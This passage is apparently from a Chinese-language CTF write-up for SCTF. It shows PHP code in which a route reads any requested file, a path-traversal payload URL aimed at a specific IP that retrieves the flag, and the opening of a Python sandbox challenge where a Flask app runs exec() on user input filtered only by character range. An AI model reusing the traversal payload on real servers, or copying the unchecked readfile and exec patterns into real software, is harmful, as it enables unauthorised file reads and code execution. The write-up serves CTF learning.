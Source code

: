 ```php=
        }
        $opts = array(
            'http'=>array(
                'method'=>"GET",
                'timeout'=>1,//单位秒
            )
        );

        $content = file_get_contents("http://127.0.0.1/tmp/".md5('127.0.0.1')."/".$filename,false,stream_context_create($opts));
        file_put_contents(storage_path("logs")."/".$data."/".$filename,$content);
        echo storage_path("logs")."/".$data."/".$filename;
    }
}
```
storage_path("logs"):/var/www/html/storage/logs

upload dir : /var/tmp/md5(IP)/

```php=
Route::get('/tmp/{filename}', function ($filename) {
    readfile("./var/tmp/".$filename);
})->where('filename', '(.*)');
```
直接任意文件读取，但是因为两个../服务器不会解析直接报错的原因无法穿到根目录，后来想到在弄个index.php就好了
最后的payload:http://39.104.93.188/index.php/tmp/../../flag

SCTF{B3st_1angu4g3_F0r_Uohhhhhhhhhh1l1l1}

## pysandbox

### pysandbox1

app.py
```python=
from flask import Flask, request

app = Flask(__name__)


@app.route('/', methods=["POST"])
def security():
    secret = request.form["cmd"]
    for i in secret:
        if not 42 <= ord(i) <= 122: return "error!"

    exec(secret)
    return "xXXxXXx"


if __name__ == '__main__':
    app.run(host="0.0.0.0")

```
测试环境：http://ccreater.top:60011/
禁用字符：
